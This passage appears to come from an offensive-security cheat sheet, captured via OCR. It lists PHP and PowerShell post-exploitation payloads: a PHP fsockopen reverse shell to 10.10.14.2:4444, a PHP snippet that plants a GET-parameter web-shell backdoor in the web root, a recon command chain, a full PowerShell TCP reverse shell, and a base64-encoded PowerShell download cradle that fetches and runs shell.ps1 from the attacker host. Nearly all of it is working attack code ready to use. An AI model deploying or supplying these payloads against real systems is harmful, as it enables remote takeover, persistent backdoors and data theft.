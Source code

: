 #### 🔹 Reverse Shell via `fsockopen`

```php
<?php
$s=fsockopen("10.10.14.2",4444);
exec("/bin/sh -i <&3 >&3 2>&3");
?>
```

#### 🔹 Persistence Hook (for analysis)

```php
<?php
file_put_contents("/var/www/html/backdoor.php", "<?php system(\$_GET['cmd']); ?>");
?>
```

#### 🔹 Web Command Chain Execution

```php
<?php echo shell_exec('whoami && uname -a && id'); ?>
```

***

### IV. 🧰 PowerShell Payloads — Windows Post-Exploitation Core

#### 🔹 Basic TCP Reverse Shell

```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.2",4444)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}
while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){
 $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i)
 $sendback = (iex $data 2>&1 | Out-String )
 $sendback2  = $sendback + 'PS ' + (pwd).Path + '> '
 $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
 $stream.Write($sendbyte,0,$sendbyte.Length)
 $stream.Flush()
}
```

#### 🔹 Encoded Command Payload

```powershell
powershell -EncodedCommand <base64>
```

Encode:

```bash
echo "IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.2/shell.ps1')" | iconv -t UTF-16LE | base64 -w 0
```
